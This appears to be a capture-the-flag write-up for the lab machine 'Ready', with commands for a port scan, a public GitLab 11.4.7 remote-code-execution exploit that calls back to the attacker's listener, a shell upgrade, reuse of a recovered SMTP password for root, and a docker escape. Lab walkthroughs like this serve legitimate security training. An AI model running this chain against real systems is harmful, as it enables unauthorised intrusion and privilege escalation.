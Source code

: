 Ready
==================
```
Nmap scan report for 10.10.10.220
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5080/tcp open  onscreen
``` 
On this machine we found open ports at 22 (SSH) and 5080. Visting the website on port 5080 we are given a Sign In Page of GitLab.
We can create a new User.

On the help page we find the version number with the hint to update asap:

![gitlabhelp.png](images/gitlabhelp.png)

Searching online for vulnerabilities of that version we find:
https://github.com/ctrlsam/GitLab-11.4.7-RCE

with:
```
python3 exploit.py -u [selbst_erstellter_user] -p [selbst_erstelltes_passwort] -g http://ready.htb -l [DEINE_IP_DU_SHIT] -P 4444
```
and a listener we al#ready# got user access.
The exploit will create a project and do some magic to get a shell.

root:
-------------------

To get a better shell we can use:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
With a little bit of enumeration an the standard john password grepper we find an password in /opt/backup/gitlab.rb.
In the gitlab.rb the gitlab rails smtp password is set to: wW59U!ZKMbG9+*#h

Just by trying 'su' and the given password we became root. But we are still inside the docker.
To escape we can use: https://github.com/PercussiveElbow/docker-escape-tool

quite enough:
```
./docker-escape check
```
An other way: https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout

Now we escaped the docker and rooted the machine.

